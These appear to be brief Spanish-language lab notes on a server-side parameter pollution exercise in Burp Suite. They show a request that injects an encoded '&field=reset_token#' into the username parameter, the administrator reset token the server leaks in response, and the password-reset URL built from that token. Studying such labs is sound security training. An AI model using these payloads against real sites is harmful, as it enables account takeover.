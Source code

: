 ```sql
csrf=ieYJUI1Y4oYGwE0D8Ht5bpZAfUEZJ68E&username=administrator%26field=sdada%23

el %26 es url ecoded de &
el %23 es url ecoded de #
```

![Untitled](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/Untitled%202.png)

![Untitled](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/Untitled%203.png)

```sql
csrf=ieYJUI1Y4oYGwE0D8Ht5bpZAfUEZJ68E&username=administrator%26field=reset_token%23

{"type":"reset_token","result":"ojj4fu8g9bjvu3itnvwj6sudt21e3a47"}

/forgot-password?reset_token=ojj4fu8g9bjvu3itnvwj6sudt21e3a47
```
